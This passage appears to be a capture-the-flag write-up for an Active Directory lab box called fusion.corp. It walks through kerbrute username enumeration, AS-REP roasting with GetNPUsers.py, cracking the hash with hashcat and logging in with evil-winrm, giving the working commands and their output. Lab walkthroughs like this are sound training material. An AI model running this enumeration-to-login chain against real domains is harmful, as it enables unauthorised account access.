 Found OpenDocument spreadsheet with usernames:

```
jmickel
aarnold
llinda
jpowel
dvroslav
tjefferson
nmaurin
mladovic
lparker
kgarland
dpertersen
```

We have the name of the domain and a list of users, let's fire up kerbrute to verify if any of the users from our list exist on the domain.

## Kerbrute

```bash
kerbrute userenum -d 'fusion.corp' --dc $IP user.txt   
```

```
2021/06/17 00:16:28 >  Using KDC(s):
2021/06/17 00:16:28 >   10.10.99.156:88

2021/06/17 00:16:28 >  [+] VALID USERNAME:       lparker@fusion.corp
2021/06/17 00:16:28 >  Done! Tested 11 usernames (1 valid) in 0.346 seconds
```

We've got a hit! Let's add a new file with the provided username and fire up asreproast.

## ASREPRoast

```bash
GetNPUsers.py 'fusion.corp/' -usersfile lparker.txt -no-pass -dc-ip $IP -format hashcat -outputfile hashes 
```

Let's use name-that-hash to get the mode for hashcat

```
Kerberos 5 AS-REP etype 23, HC: 18200 JtR: krb5pa-sha1 Summary: Used for Windows Active Directory
```
Crack the hash using hashcat and we have our first credential!

# Initial Foothold 

```bash
evil-winrm -i $IP -u lparker -p '****************'
```

We'll get our first flag. Being able to log in isn't the only thing we can do using the credentials found though. Let's fire up the ldap domain dump and see what else can we get.
